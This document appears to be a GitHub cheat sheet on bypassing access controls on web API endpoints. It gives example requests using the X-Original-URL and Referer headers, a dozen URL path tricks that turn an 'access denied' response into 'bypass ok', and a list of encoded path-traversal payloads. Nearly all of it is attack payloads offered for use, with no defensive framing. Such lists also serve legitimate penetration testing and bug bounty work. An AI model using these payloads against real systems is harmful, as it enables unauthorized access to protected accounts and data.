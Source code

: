 <h3>If you want do bypass endpoint always try to use own methodology.<h3>

<b>Example</b>:

Http Header based bypass:

<b>1.</b> X-Original-URL: /redact

<b>Example:</b><br/>
 
GET /api/getUser HTTP/1.1 → 403
Host: redact.com

GET / HTTP/1.1
Host: redact.com
X-Original-URL: /api/getUser → 200 OK

<b>2.</b> Referer: https://site.com/api/redact

Example:<br/>
  

GET /api/getUser HTTP/1.1 → acess denied
Host: redact.com

  
  
GET / HTTP/1.1
Host: redact.com
Referer: https://site.com/api/getUser → 200 OK
 
  or
  
GET / HTTP/1.1
Host: redact.com
Referer: https://site.com/api/getUser → 200 ok

More examples:

<b>3</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/v1/users/redactid<b>.json</b> → bypass ok <br/>

<b>4</b>. https://site.com/api/v1/redactid → acess denied <br/>
https://site.com/api/v1/users/redactid<b>:</b> → bypass ok <br/>

<b>5</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/v1/users/redactid<b>..;/</b> → bypass ok <br/>

<b>6</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/v1/users/redactid<b>\..\.\getUser</b> → bypass ok <br/>

<b>7</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/v1/users/redactid<b>/</b> → bypass ok <br/>

<b>8</b>. https://site.com/api/v1/users/redactid → acess denied <br/>
https://site.com/api/v1/users/redactid<b>??</b> → bypass ok <br/>

<b>9</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/<b>v2</b>/users/redactid → bypass ok <br/>
            or
https://site.com/api/<b>v3</b>/users/redactid → bypass ok <br/>

<b>10</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/v1/users/redactid<b>&accountdetails</b> → bypass ok <br/>

<b>11</b>. https://site.com/api/v1/users/victim?id=BAEILsaqQhk → acess denied <br/>
https://site.com/api/v1/users/<b>your?id=UAEILsdUf50&</b>victim?id=BAEILsaqQhk → bypass ok <br/>

<b>12</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/v1/users/redactid<b>/email</b> → bypass ok <br/>

Payload for basic test:
<ul>
 <b>
? <br/>
?? <br/>
& <br/>
'#' <br/>
% <br/>
%20 <br/>
%09 <br/>
/ <br/>
/..;/ <br/>
../ <br/>
..$2f <br/>
..;/ <br/>
../ <br/>
\..\.\ <br/>
.././ <br/>
..%00/ <br/>
.%0d/ <br/>
..%5c <br/>
..\ <br/>
..%ff/ <br/>
%2e%2e%2f <br/>
.%2e/ <br/>
%3f <br/>
%26 <br/>
%23 <br/>
.json <br/>
 </b>
</ul>
HTTP Header based bypass:

1. X-Original-URL: /redact
2. Referer: https://site.com/api/redact



